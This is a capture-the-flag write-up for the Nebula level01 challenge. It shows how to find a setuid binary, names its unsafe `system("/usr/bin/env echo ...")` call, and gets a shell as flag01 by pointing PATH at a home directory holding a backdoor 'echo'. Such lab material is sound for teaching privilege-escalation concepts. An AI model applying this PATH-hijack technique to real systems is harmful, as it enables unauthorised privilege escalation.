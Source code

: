 # About
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the level01 account with the password level01. Files for this level can be found in /home/flag01.

# Exploitation
```bash
level01@nebula:~$ find / -perm -4000 -user flag01 2>/dev/null
/home/flag01/flag01
/rofs/home/flag01/flag01
level01@nebula:~$ /home/flag01/flag01
and now what?
level01@nebula:~$ 
```
This program echo a string "and now what?".
```c
system("/usr/bin/env echo and now what?");
```
This program execute echo program which locates on `$PATH`(includes many path).

The `$PATH` is:
```bash
level01@nebula:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
level01@nebula:~$ 
```

If I change `$PATH` with my current folder and I make a simple backdoor named `echo`, this program(/home/flag01/flag01) will execute my program.

```bash
level01@nebula:~$ export PATH=/home/level01
level01@nebula:~$ /home/flag01/flag01
sh-4.2$ id
```
